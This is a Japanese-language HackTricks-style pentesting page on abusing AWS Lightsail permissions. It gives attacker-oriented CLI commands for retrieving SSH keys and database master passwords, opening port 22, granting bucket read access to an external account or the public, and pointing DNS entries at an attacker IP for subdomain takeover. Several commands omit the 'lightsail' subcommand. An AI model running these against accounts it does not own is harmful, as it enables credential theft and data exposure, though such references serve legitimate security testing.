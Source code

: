 # AWS - Lightsail Privesc

{{#include ../../../../banners/hacktricks-training.md}}

## Lightsail

Lightsail の詳細については次を参照してください:

{{#ref}}
../../aws-services/aws-lightsail-enum.md
{{#endref}}

> [!WARNING]
> Lightsail は **ユーザーに属する IAM roles を使用せず**、AWS managed account に紐づくため、このサービスを利用して privesc を行うことはできません。しかし、**機密データ**（code、API keys、database info）がこのサービス内で見つかる可能性があります。

### `lightsail:DownloadDefaultKeyPair`

この権限により、インスタンスにアクセスするための SSH keys を取得できます：
```
aws lightsail download-default-key-pair
```
**Potential Impact:** インスタンス内の機密情報を見つける。

### `lightsail:GetInstanceAccessDetails`

この権限により、インスタンスへアクセスするためのSSHキーを生成できます:
```bash
aws lightsail get-instance-access-details --instance-name <instance_name>
```
**潜在的な影響:** インスタンス内の機密情報を見つける。

### `lightsail:CreateBucketAccessKey`

この権限により、bucket にアクセスするためのキーを取得できます:
```bash
aws lightsail create-bucket-access-key --bucket-name <name>
```
**潜在的影響:** bucket 内の機密情報を見つける。

### `lightsail:GetRelationalDatabaseMasterUserPassword`

この権限があれば、データベースにアクセスするための認証情報を取得できます:
```bash
aws lightsail get-relational-database-master-user-password --relational-database-name <name>
```
**潜在的な影響:** データベース内の機密情報を見つけることができる。

### `lightsail:UpdateRelationalDatabase`

この権限により、データベースにアクセスするためのパスワードを変更できます:
```bash
aws lightsail update-relational-database --relational-database-name <name> --master-user-password <strong_new_password>
```
データベースが公開されていない場合は、次の権限で公開にすることもできます。
```bash
aws lightsail update-relational-database --relational-database-name <name> --publicly-accessible
```
**Potential Impact:** データベース内の機密情報を見つけることができる。

### `lightsail:OpenInstancePublicPorts`

この権限によりインターネットに対してポートを開放できます。
```bash
aws lightsail open-instance-public-ports \
--instance-name MEAN-2 \
--port-info fromPort=22,protocol=TCP,toPort=22
```
**Potential Impact:** 機密性の高いポートにアクセス可能

### `lightsail:PutInstancePublicPorts`

この権限により、ポートをインターネットに公開できます。呼び出し時に、指定されていない既存のポートはすべて閉じられます。
```bash
aws lightsail put-instance-public-ports \
--instance-name MEAN-2 \
--port-infos fromPort=22,protocol=TCP,toPort=22
```
**潜在的な影響:** 機密性の高い ports へのアクセス

### `lightsail:SetResourceAccessForBucket`

この permissions により、instances に追加の credentials なしで bucket へのアクセスを付与できます。
```bash
aws set-resource-access-for-bucket \
--resource-name <instance-name> \
--bucket-name <bucket-name> \
--access allow
```
**潜在的影響:** 機密情報を含むバケットへの新たなアクセスの可能性。

### `lightsail:UpdateBucket`

この権限があれば、攻撃者は自分のAWSアカウントに対してバケットの読み取りアクセスを付与したり、バケットを全員に公開したりすることができます:
```bash
# Grant read access to exterenal account
aws update-bucket --bucket-name <value> --readonly-access-accounts <external_account>

# Grant read to the public
aws update-bucket --bucket-name <value> --access-rules getObject=public,allowPublicOverrides=true

# Bucket private but single objects can be public
aws update-bucket --bucket-name <value> --access-rules getObject=private,allowPublicOverrides=true
```
**潜在的影響:** 機密情報を含むバケットへの新たなアクセスが発生する可能性。

### `lightsail:UpdateContainerService`

この権限があれば、攻撃者はコンテナサービスからプライベート ECR へのアクセスを付与できる可能性がある。
```bash
aws update-container-service \
--service-name <name> \
--private-registry-access ecrImagePullerRole={isActive=boolean}
```
**Potential Impact:** プライベート ECR から機密情報を取得する

### `lightsail:CreateDomainEntry`

この権限を持つ攻撃者はサブドメインを作成して自身のIPアドレスに向ける（subdomain takeover）、あるいはSPFレコードを作成してドメインからのメールをなりすますことができる、さらにはメインドメインを自身のIPアドレスに設定することさえ可能です。
```bash
aws lightsail create-domain-entry \
--domain-name example.com \
--domain-entry name=dev.example.com,type=A,target=192.0.2.0
```
**潜在的な影響:** ドメインの乗っ取り

### `lightsail:UpdateDomainEntry`

この権限を持つ攻撃者は、subdomain を作成して自分の IP アドレスを指すように設定（subdomain takeover）、または SPF レコードを作成してドメインからのメールを spoof できるようにしたり、メインドメイン自体を自分の IP アドレスに設定することさえ可能です。
```bash
aws lightsail update-domain-entry \
--domain-name example.com \
--domain-entry name=dev.example.com,type=A,target=192.0.2.0
```
**潜在的影響：** ドメインの乗っ取り

{{#include ../../../../banners/hacktricks-training.md}}
